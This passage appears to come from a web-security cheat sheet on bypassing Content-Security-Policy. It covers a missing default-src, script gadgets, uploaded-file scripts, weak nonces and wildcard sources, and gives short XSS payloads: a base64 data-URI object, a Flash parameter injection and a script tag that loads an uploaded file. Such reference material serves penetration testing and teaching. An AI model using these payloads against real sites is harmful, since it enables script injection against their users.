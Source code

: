 ## Missing default-src

```http
Content-Security-Policy: script-src 'self';
```

This is a misconfigured CSP policy due to missing `default-src`, allowing use `object-src`. Possible payloads:

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>

<param name="AllowScriptAccess" value="always"></object>
```

## Script gadgets

You can use script gadgets to bypass CSP even if a nonce-based policy is in use, since the gadget is usually allowed to execute JavaScript.

References:
- [PortSwigger: Hunting nonce-based CSP bypasses with dynamic analysis](https://portswigger.net/research/hunting-nonce-based-csp-bypasses-with-dynamic-analysis)

## Uploading files

```http
Content-Security-Policy: script-src 'self'; object-src 'none';
```

If the application allows users to upload any type of file to the host you can upload a malicious script and call it within a tag. Possible payload:

```html
"/>'><script src="/uploads/picture.png.js"></script>
```

## Weak nonce generation

If `nonce` value is generated by a weak generator or its value can be guessed at, you can bypass a policy by generating the correct `nonce`.

References:
- [Writeup: Bug Bounty Stories #1: Tale of CSP bypass in an electron app!](https://securitygoat.medium.com/bug-bounty-stories-1-tale-of-csp-bypass-in-an-electron-app-f669f6ecefc9)

## Wildcard in script-src

```http
Content-Security-Policy: script-src 'self' https://facebook.com https://google.com https: data *; child-src 'none';
```
